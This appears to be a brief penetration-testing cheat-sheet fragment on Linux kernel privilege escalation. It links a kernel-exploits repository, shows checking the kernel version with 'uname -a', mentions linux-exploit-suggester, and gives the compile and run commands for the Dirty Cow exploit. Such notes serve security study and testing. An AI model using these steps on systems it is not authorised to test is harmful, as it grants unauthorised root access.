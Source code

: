 https://github.com/lucyoa/kernel-exploits

Display kernel version
```
uname -a
Linux debian 2.6.32-5-amd64
```

Use the linux-exploit-suggester to identify kernel exploits quicker

### Dirty Cow
Compile
```bash
gcc -pthread dirty.c -o c0w
```
Run
```bash
./c0w
passwd
```